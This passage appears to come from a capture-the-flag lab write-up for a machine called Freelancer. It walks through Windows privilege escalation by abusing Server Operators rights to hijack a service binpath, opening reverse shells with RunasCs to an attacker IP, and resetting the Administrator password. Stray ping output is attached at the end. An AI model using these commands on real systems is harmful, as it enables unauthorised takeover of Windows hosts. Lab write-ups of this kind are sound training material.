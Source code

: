 So will try with another password which works for so may accounts
The user jmartinez got interesting privileges
![[Pasted image 20240623145547.png]]

Jmartinez is in service operator Group:
![[Pasted image 20240623164026.png]]
Will abuse server operator
```
sc.exe stop VMTools
sc.exe config VMTools binpath="cmd /c net localgroup administrators jmartinez /add"
sc.exe start VMTools
```
![[Pasted image 20240623164128.png]]

Now Will check
```
net user jmartinez
```
![[Pasted image 20240623164234.png]]

Will get a new shell, so we get a shell as Admin using RunasCs.exe
```
.\run.exe jmartinez "v3ryS0l!dP@sswd#35" cmd.exe -r 10.10.14.6:443
```
![[Pasted image 20240623164327.png]]

Got reverse shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240623164452.png]]
![[Pasted image 20240623164505.png]]

Will change Admin's Password, We can also get the root flag from this shell, but still need to be an Domain Controller 
```
net user Administrator pwned@3000
```
![[Pasted image 20240623164743.png]]

Now Will run RunasCs.exe to get Admin Shell
```
.\run.exe Administrator "pwned@3000" cmd.exe -r 10.10.14.6:443
```
![[Pasted image 20240623164904.png]]

Got Reverse shell as Admin
![[Pasted image 20240623164916.png]]

Will get Root flag
![[Pasted image 20240623164957.png]]



Done with Freelancer.....:)



64 bytes from 8.8.8.8: icmp_seq=2 ttl=52 time=10.1 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=52 time=9.60 ms
^C
--- 8.8.8.8 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2014ms
rtt min/avg/max/mdev = 9.005/9.573/10.117/0.454 ms
